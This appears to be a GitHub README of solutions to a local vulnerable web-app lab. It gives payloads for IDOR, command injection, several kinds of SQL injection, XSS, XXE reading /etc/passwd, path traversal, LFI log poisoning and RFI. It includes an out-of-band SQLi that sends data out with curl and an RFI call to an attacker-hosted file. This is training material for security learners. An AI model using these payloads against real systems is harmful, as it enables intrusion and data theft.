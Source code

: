 # Lab-solutions
Lab solutions

## Open redirect(BAC)
http://127.0.0.1/bac/openr/index.php?redirect=yoursite</br>

## IDOR
Login to account using username & password</br>
http://127.0.0.1/bac/idor/home.php?acnumber=2233445577  change acnumber value to 2233445566(vertical privesc) to 2233445588(horizantol)</br>

## Cryptographic failure
Fuzz the site</br>
http://127.0.0.1/crypt/FUZZ  you will get secret.db file download it & open it with sqlieditor crack the password using crackstation.net & log in to admin</br>

## Injections
### command
use ; semicolon with ip ex: 127.0.0.1;whoami</br>

### SQLI(put a single quote in ID it returns SQLI error message)
version extract using error based sqli<\br>
1'or 1=1 in (LEFT(version(), 1) = '1')#    - first char 1 in version it returns all columns data</br>
1'or 1=1 in (LEFT(version(), 2) = '10')#   - second char 10 in version it returns all columns data</br>
1'or 1=1 in (LEFT(version(), 3) = '10.')#  - third char 10. in version it returns all columns data</br>
so the version number is 10. so on<\br>

### Union
order by to guess columns</br>
1' order by 3#  upto 3 no errors after 3 error means total columns are 3</br>

### union query to extract data from columns
1'union select null,@@version,null #  getting version</br>
1'union select null,schema_name,null from information_schema.schemata#   -extract databases</br>
1'union select null,table_name,null from information_schema.tables where table_schema='databasenamefromabove'#  -extract tablenames</br>
1'union select null,column_name,null from information_schema.columns where table_schema='databasenamefromabove' and table_name='table_namefromabove'#    </br>
1'union select null,column_name_extractdata,null from tablename#  - get datafrom a specific column

### Boolean(no errors -data disappear based true false condition)
1'and if (1=1, (LEFT(version(), 1) = '1'), 'false')#  -first char is 1 and data  appear</br>
1'and if (1=1, (LEFT(version(), 2) = '10'), 'false')#  - second char is 0 and data appear</br>
so the version is 10<\br>

### delay
1' or sleep(5)#</br>

### OOB sqli
';COPY (SELECT version()) TO PROGRAM 'curl -G burpcollaborator?data=$(cat)'--   you will receive data on your burpcollaborator</br>

## XSS
### Rxss
<script>alert(123)</script></br>
### Sxss
<script>alert(123)</script></br>
### DOM
http://127.0.0.1/inject/xss/dom.html?default=<script>alert(123)</script></br>
### BLind
submit your comment payload(<script>alert(123)</script>) on comments page login to admin panel it will trigger xss</br>
use a cookie stealing payload to steal admin cookie

## Insecure design
go to reset password page & use username admin & bruteforce the OTP it will give a password & login to admin account</br>

## Security misconfiguration
create  a .xml file & add below data then upload it the portal you can see /etc/passwd file contents</br>
***
<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>
&test;
</root>
***

## Vulnerable & outdated components
Fuzz the files & you will find admin endpoint with login page</br>
http://127.0.0.1/wbce/admin/login/  - use admin/password deault creds to login its wbce vulnerable version. exploit it and gain code execution</br>

## identification & Authentication failure
its a input type juggling vulnerability in php</br>
capture login request just replace password= value in body to password[]=randomvalue  you can login to admin account</br>

## software & data integrity failure
login to user account with details on login portal</br>
then you can see JWT on request & response header. just decode it and replace username with admin. encode the JWT & submit. you can all admin data</br>

## Security logging & monitoring
Fuzz for log files you will find access.log file & and the attack is bruteforce you can check logs</br>


## SSRF
http://127.0.0.1/ssrf/index.php?page=burpcollaborator  you can get a dummy secret Authorization header</br>

## Path traversal
http://127.0.0.1/pathtr/index.php?page=../../../../../../etc/passwd</br>

## File inclusion
### LFI
http://127.0.0.1/fileinc/index.php?page=../../../../../var/log/apache2/access.log     - you can access log file. perform log poison to get code exection</br>
then submit your php system function payload using Useragent & access it over access.log and your parameter. you will code execution.</br>

### RFI
host your own server with a php system function based payload and access it through page parameter</br>
http://127.0.0.1/fileinc/index.php?page=http://yourserver/code.php   - it will execute the code.php file & show output on screen</br>
